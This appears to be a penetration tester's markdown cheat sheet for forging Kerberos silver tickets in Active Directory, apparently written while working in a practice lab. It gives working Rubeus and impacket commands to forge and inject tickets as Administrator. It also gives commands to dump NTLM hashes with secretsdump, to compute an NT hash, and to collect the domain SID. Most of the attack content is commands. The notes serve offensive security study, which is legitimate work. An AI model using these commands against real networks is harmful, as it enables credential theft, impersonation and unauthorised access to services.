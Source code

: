we can forge a service ticket if we have:
- plain-text password or NTLM hash of a service account (secretdump -mimkatz LSASS dump - DCSync)
- Service Principal Name (SPN) of that service
- FQDN
- Domain SID (optional for some tools)

Tools:
1. rubeus
```powershell
rubeus.exe silver /service:MSSQLSvc/lol.local:1433 /rc4:<NTLM> /sid:<DOMAIN_SID> /user:Administrator /domain:<DOMAIN> /ptt
```
2. `tickter.py`
```shell
1-
python3 ticketer.py <TARGET (domain name)> -nthash <NTHASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -dc-ip 10.10.10.1 -spn cifs/test.local -user Administrator

2-
export KRB5CCNAME=./Administrator.ccache

#then confirm that it's there
klist

3-
impacket-mssqlclient -windows-auth -k north.sevenkingdoms.local/jon.snow@castelblack.north.sevenkingdoms.local -no-pass

```



> [!NOTE] NOTE
> this whole tickets forging thing will be useless IF the service did a PAC validation which is rare. Any service that runs inside services.msc will not use PAC validation. 

---

### getting `NTLM` hash or the plain password:

 1. using impacket-secretdump (has to be domain admin account) 
 ```shell
 impacket-secretsdump 'north.sevenkingdoms.local/vagrant:vagrant@192.168.56.11'
```
 
 2.  mimkatz LSASS dump
 3. DCSync attack 
 4. Kerberoast > Crack > NTLM
 ```shell
 # this will get us the NTLM hash
 echo -n 'Password123!' | iconv -f utf-8 -t utf-16le | openssl dgst -md4 
```

---
### Getting Domain SID:
its basically the first part of any SID object.
```powershell
nxc:
nxc ldap lol.local -u sqlsvc -p test -k --get-sid

ldapsearch:
ldapsearch -x -H ldap://<DC_IP> -b "" -s base objectSid

impacket-GetADUsers:
impacket-GetADUsers domain/user:password@<DC_IP> -all

rpcclient:
rpcclient $> lookupdomain north.sevenkingdoms.local
```